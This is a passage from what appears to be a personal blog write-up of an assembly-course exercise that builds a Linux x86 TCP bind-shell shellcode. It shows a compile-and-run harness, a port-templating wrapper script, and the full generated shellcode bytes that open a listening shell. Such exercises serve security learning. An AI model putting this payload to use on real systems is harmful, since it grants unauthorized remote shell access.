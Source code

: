 Let's execute it in [shellcode.c](https://github.com/phackt/slae/blob/master/assignment1/shellcode.c):  
```bash
gcc -o shellcode shellcode.c && ./shellcode
```
  
Then from another shell:  
![image5]({{ site.url }}/public/images/slae/assignment1/image5.png)  
  
One easy way to customize the listening port is to set a pattern in the source file and to generate the shellcode thanks to a wrapper script.  
We are creating a shell_bind_tcp.template and updating the following part:  
```push word 0x901f``` becomes ```push word PORT```.  
  
Now we will use the [wrapper.sh](https://github.com/phackt/slae/blob/master/assignment1/wrapper.sh) script:  
```bash
./wrapper.sh
Usage: ./wrapper.sh <port_number> <pattern> <file>
```
```bash
./wrapper.sh 8080 PORT ./shell_bind_tcp.template 
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x66\x68\x1f\x90\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x52\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xdb\xf7\xe3\x52\x52\x57\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```  

So now we can parametrize the port number and generate a TCP port binding shellcode.  
  
Hope you enjoyed,  
Thanks a lot and as i'm used to saying, do not hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)

